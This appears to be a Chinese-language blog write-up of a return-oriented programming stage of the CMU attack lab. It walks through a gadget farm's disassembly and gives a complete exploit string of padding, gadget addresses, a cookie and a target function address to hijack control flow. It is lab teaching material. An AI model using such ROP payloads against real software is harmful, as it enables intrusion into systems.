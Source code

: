 ```asm

0000000000401aa5 <getval_472>:
  401aa5:	b8 8d ce 20 d2       	mov    $0xd220ce8d,%eax
  401aaa:	c3                   	retq   

0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	retq   

0000000000401ab2 <end_farm>:
  401ab2:	b8 01 00 00 00       	mov    $0x1,%eax
  401ab7:	c3                   	retq   
  401ab8:	90                   	nop
  401ab9:	90                   	nop
  401aba:	90                   	nop
  401abb:	90                   	nop
  401abc:	90                   	nop
  401abd:	90                   	nop
  401abe:	90                   	nop
  401abf:	90                   	nop
```

2. rdi要如何设置为cookie
3. 如何跳转到touch2

我将所有可以用的指令都高亮了出来, 根据提示, 我们只需要只用Figure A和Figure B中的指令即可. 这里能够修改的rdi的只有:

```asm
mov $rax, $rdi
```

那问题转到\$rax了,再看能修改\$rax的:

```asm
mov $rsp, $rax 
pop $rax
```

显然,用pop的概率更大.

pop是将\$rsp当前指向的数据  pop 到 \$rax 上, 所以我们可得gaddget如下图:

![image-20200721093518556](https://ravenxrz-blog.oss-cn-chengdu.aliyuncs.com/img/github_img/image-20200721093518556.png)

知道这些, 我们只用到 rtaget的gaddgets_farm中找到对应的指令字节码即可, 最终可得:

```asm
/* 先填充40个字节 */
00 00 00 00 00 00 00 00 /* 8个字节 */
00 00 00 00 00 00 00 00 /* 8个字节 */
00 00 00 00 00 00 00 00 /* 8个字节 */
00 00 00 00 00 00 00 00 /* 8个字节 */
00 00 00 00 00 00 00 00 /* 8个字节 */
/* 写入gadgets */
ab 19 40 00 00 00 00 00 /* pop $rax */
fa 97 b9 59 00 00 00 00 /* cookie */
a2 19 40 00 00 00 00 00 /* mov $rax,$rdi */
ec 17 40 00 00 00 00 00 /* touch2 地址 */
```
